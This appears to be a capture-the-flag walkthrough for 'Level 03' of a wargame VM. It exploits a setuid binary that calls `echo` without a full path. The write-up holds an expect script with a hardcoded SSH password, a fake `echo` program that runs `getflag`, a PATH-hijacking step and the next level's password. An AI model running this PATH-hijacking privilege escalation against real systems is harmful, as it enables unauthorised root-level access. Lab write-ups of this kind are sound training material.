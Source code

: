 # Level 03
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level03@$ip -p 4242 "mkdir -p /tmp/level03 ; cd /tmp/level03 ; chmod 777 . ; echo 'void main(void) \{ system\(\"getflag\"\)\; \}' > echo.c ; gcc echo.c -o echo ; PATH=/tmp/level03:\$PATH ; ~/level03"
	expect "sword:"
	send "kooda2puivaav1idi4f57q8iq\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- Run its only executable file `./level03` to see a challenge
- Use `ltrace` utility to trace the libraries calls
	```sh
	$ ltrace ./level03
	```
- Make a directory with a program in `/tmp` location to imitate the `echo` system call
	```sh
	$ mkdir -p /tmp/level03
	$ cd /tmp/level03
	$ chmod 777 .
	$ vim /tmp/echo.c
	void main(void) {
		system("getflag");
	}
	$ gcc echo.c -o echo
	```
- Add its location to the begin of `PATH` environment variable
	```sh
	$ PATH=/tmp/level03:$PATH
	```
- Run the executable file again to exploit the system call of `echo` utility and to get the flag
	```sh
	$ ~/level03
	```
- With the token provided `qi0maab88jeaj46qoumi7maus` switch to the next user level
	```sh
	$ su level04
	Password: qi0maab88jeaj46qoumi7maus
	```
